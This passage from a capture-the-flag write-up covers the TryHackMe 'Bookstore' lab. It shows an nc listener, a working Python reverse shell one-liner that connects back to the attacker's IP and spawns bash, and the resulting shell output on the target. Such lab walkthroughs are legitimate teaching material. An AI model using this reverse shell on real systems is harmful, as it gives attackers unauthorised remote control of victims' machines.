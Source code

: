 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Bookstore/images/a13.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Bookstore/images/a14.png)

**We'in! Let's get a python reverse shell!**

**To do so, I'll:**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Send a python reverse shell: (Generated from [revshell.com](https://www.revshells.com/))

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.253",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Bookstore/images/a15.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.116.175] 55006
sid@bookstore:~$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
sid
bookstore
uid=1000(sid) gid=1000(sid) groups=1000(sid)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:5f:3c:06:69:8b brd ff:ff:ff:ff:ff:ff
    inet 10.10.116.175/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2645sec preferred_lft 2645sec
    inet6 fe80::5f:3cff:fe06:698b/64 scope link 
       valid_lft forever preferred_lft forever
```
